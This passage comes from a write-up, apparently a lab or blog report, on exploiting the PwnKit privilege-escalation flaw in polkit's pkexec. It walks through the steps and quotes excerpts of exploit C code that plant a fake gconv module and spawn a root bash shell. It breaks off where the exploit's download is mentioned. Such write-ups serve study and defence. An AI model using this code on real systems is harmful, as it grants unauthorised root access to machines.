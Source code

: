 2. **Setting up a Fake gconv Module:**
    
    * Creates a directory structure that mimics glibc's character conversion modules
        
    * Places a malicious shared library that will be loaded
        
3. **Triggering the Vulnerability:**
    
    * Calls `pkexec` with no arguments to trigger the out-of-bounds write
        
    * The memory corruption causes the system to load the attacker's malicious code
        
    * The malicious code executes with root privileges
        

### Exploit Code Analysis

The PwnKit exploit I used contains several key components:

```c
// Key sections of the exploit:

// 1. Directory and file creation for the fake gconv module
res = mkdir("GCONV_PATH=.", 0777);
res = mkdir(".pkexec", 0777);

// 2. Creating the gconv-modules configuration
fp = fopen(".pkexec/gconv-modules", "w+");
fputs("module UTF-8// PKEXEC// pkexec 2", fp);

// 3. The gconv_init function that gets executed as root
void gconv_init()
{
    setresuid(0, 0, 0);  // Set real, effective, and saved UIDs to root
    setresgid(0, 0, 0);  // Set real, effective, and saved GIDs to root
    
    // Execute shell with root privileges
    execve("/bin/bash", (char *[]){"-i", NULL}, NULL);
}
```

### Why This Exploit is So Dangerous

1. **Universal Impact:** Affects virtually all Linux systems with polkit installed
    
2. **No Authentication Required:** Any local user can exploit it
    
3. **Reliable Exploitation:** The exploit works consistently across different systems
    
4. **Stealth:** Leaves minimal traces in system logs
    
5. **Age of Vulnerability:** Present in code for over 12 years before discovery
    

### Exploit Deployment

I downloaded the PwnKit exploit from the ly4k repository:
